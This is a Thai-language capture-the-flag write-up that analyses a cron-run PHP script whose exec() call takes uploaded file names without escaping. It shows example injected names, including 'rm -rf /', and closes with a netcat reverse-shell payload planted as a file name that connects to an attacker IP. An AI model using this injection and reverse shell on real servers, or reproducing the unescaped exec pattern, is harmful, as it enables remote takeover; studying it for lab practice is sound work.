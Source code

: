 - getnameCheck() แยกชื่อกับนามสกุลไฟล์ เช่น 127.0.0.1.png → 127.0.0.1, png 
- check_ip() เช็กว่า $name เป็น **IP address** ถูกต้องไหม (ใช้ filter_var())

```php
    if (!($check[0])) {
```

- ถ้าไม่ใช่ IP (เช่น abc.png หรือ a; rm -rf /.png) จะถือว่าเป็น “การโจมตี”
    
```php
        echo "attack!\n";
        file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);
        exec("rm -f $logpath");
        exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
        mail($to, $msg, $msg, $headers, "-F$value");
```

- คำสั่ง exec("nohup /bin/rm -f $path$value ...") เอา **$value (ชื่อไฟล์)** มาต่อคำสั่งระบบโดยตรง
    → ถ้าชื่อไฟล์มีคำสั่งแฝง เช่น a; whoami; b.png จะหลุด **Command Injection**
- ไม่มี escapeshellarg() หรือการตรวจสอบ input ใด ๆ
- ผลคือเราสามารถใช้ “**ชื่อไฟล์**” ที่มีคำสั่งแฝง เพื่อรันคำสั่งในเซิร์ฟเวอร์ได้


**วิเคราะห์ Cronjob**    
    - ไฟล์ crontab.guly ตั้งให้รันทุก 3 นาที
```bash
php /home/guly/check_attack.php
```
  
**วิเคราะห์สคริปต์ check_attack.php**
    - อ่านไฟล์ทั้งหมดใน /var/www/html/uploads/
    - ถ้าไฟล์ไหน **ไม่ใช่** IP address (เช็กด้วย filter_var) จะสั่ง:
```php
exec("nohup /bin/rm -f /var/www/html/uploads/<ชื่อไฟล์> …");
```

ปัญหา: คำสั่ง exec() นำ **ชื่อไฟล์** (ตัวแปร $value) มาต่อท้ายโดย **ไม่ escape** →  **Command Injection** ได้ทันที

**ช่องทางโจมตี**  ดำเนินการอัปโหลดไฟล์ชื่อแปลก ๆ เช่น
```bash
a; <payload>; b
```

PHP ใช้ exec() กับชื่อไฟล์จากโฟลเดอร์ uploads ที่ผู้ใช้ควบคุมได้ → ใส่ payload ในชื่อไฟล์แล้วรอ cron รัน = ได้ reverse shell เป็น guly ได้

เราสามารถทำการสร้างไฟล์ภายใต้ uploads/ ได้โดยฝัง shell ภายใต้โฟลเดอร์ดังกล่าว  

```bash
touch ';nc -c bash 10.10.14.6 444'
```
